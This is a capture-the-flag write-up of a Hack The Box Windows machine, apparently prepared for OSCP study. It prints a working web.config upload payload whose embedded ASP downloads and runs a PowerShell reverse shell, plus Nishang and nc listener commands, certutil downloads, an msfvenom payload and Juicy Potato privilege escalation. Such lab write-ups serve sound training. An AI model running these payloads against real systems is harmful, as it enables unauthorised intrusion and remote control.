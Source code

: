 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)
## 🧭 Reconnaissance

### ⚡ Fast Port Scan
```bash
export IP=10.10.10.93
rustscan --ulimit 5000 -a $IP -- -A -sC -oN recon/$IP.scan.rustscan.txt
```

### 📌 Result Summary:
- **Port 80** open (HTTP)
- **Service**: Microsoft IIS 7.5
- **Server OS**: Windows Server 2008 R2

---

## 🌐 [Web Enumeration](HTTP.md)

### 📁 Directory Enumeration via ShortScan
```bash
shortscan -F http://$IP/
```

### ✅ Discovered Pages:
- `/transfer.aspx` – file upload endpoint
- `/uploadedfiles/` – public directory, potentially for uploaded files

---

## 💣 Exploitation – File Upload Bypass via `web.config`

### 🔍 Goal:
Bypass file extension filtering and achieve **Remote Code Execution** (RCE).

### 🧪 Technique:
1. Used **Burp Intruder** to fuzz file extensions during upload.
2. `.config` was accepted (unexpected but powerful).

### 📝 Malicious `web.config` Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule"
              scriptProcessor="%windir%\system32\inetsrv\asp.dll" 
              resourceType="Unspecified" requireAccess="Write" preCondition="bitness64"/>
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions><remove fileExtension=".config"/></fileExtensions>
            <hiddenSegments><remove segment="web.config"/></hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%
Set obj = CreateObject("WScript.Shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.16.72/Invoke-PowerShellTcp.ps1')")
%>
```

---

## 🛰️ Reverse Shell

### 🧪 Using Nishang:
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.72 -Port 4444" >> Invoke-PowerShellTcp.ps1
updog -p 80  # serve payload
```

### 🧲 Listener (with rlwrap for convenience):
```bash
rlwrap -f . -r nc -nlvp 4444
```

### 🚀 Trigger Shell:
- Upload `web.config` via `/transfer.aspx`
- Visit `/uploadedfiles/web.config` to execute
- ✅ You get a reverse shell as user `merlin`

---

## 🏁 User Flag
```bash
C:\Users\merlin\Desktop> type user.txt
```

---

## 🚀 Privilege Escalation – Juicy Potato

### 📌 Key Privilege:
```bash
whoami /priv
# SeImpersonatePrivilege: Enabled ✅
```

### ⚙️ Transfer Juicy Potato:
```powershell
certutil -urlcache -split -f http://10.10.16.72/JuicyPotato.exe jp.exe
```

### 💣 Generate Reverse Shell (64-bit):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.72 LPORT=443 -f exe -o reverse.exe
```

### 📥 Transfer payload:
```powershell
certutil -urlcache -split -f http://10.10.16.72/reverse.exe reverse.exe
```

---

## 🎯 Execute PrivEsc
```powershell
.\jp.exe -l 1337 -p reverse.exe -t *
```

Start listener:
```bash
rlwrap -f . -r nc -nlvp 443
```

### ✅ Shell as SYSTEM

---

## 🔐 Root Flag
```cmd
type C:\Users\Administrator\Desktop\root.txt
```

---

## 📚 Lessons Learned

### 🔓 Initial Access:
- Exploited **file upload bypass** using `.config` file
- Abused ASP handler config to execute malicious code

### 📈 Privilege Escalation:
- Leveraged **SeImpersonatePrivilege** with Juicy Potato for SYSTEM access

### 🛡️ Mitigations:
- Harden file uploads: restrict extensions, validate contents, isolate directories
- Restrict SeImpersonatePrivilege to trusted services
- Patch critical systems (this was Windows Server 2008 R2 – unpatched!)

---

## 🎥 [VOD Replay](https://www.twitch.tv/deadpool3020/v/2346652668?sr=a&t=6s)

---

Let me know if you'd like this exported as a `.md` or turned into a downloadable report. Ready for the next target? 🧠💀